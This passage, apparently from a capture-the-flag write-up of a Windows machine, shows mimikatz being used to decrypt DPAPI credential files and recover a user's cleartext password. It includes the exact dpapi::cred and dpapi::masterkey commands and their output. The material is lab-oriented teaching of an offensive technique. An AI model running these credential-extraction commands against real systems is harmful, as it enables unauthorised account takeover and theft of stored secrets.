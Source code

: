 ![Detected DPAPI credential files](/assets/images/Office/detected-dpapi-credential-files.png)

So uploading mimikatz and trying to see the credentials stored in those files following the steps described [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords#credential-files), I can see a password for hhogan:

```powershell
PS C:\Windows\Temp\privesc > .\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" "exit"
mimikatz(commandline) # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
**BLOB**

<SNIP>

Decrypting Credential:

<SNIP>

UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```

> Note: The master key reported in each Credential file in winPEAS is the file in which we have to extract the real masterkey located in C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107. For example for Credential File C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\18A1927A997A794B65E9849883AC3F3E, its said that its masterkey is 191d3f9d-7959-4b4d-a520-a444853c47eb, so we have to execute this command to extract the real masterkey for this credential file: `PS C:\Windows\Temp\privesc3> .\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" "exit" | findstr "key"` and the key we have to use in dpapi::cred is the one under [domainkey] with RPC.
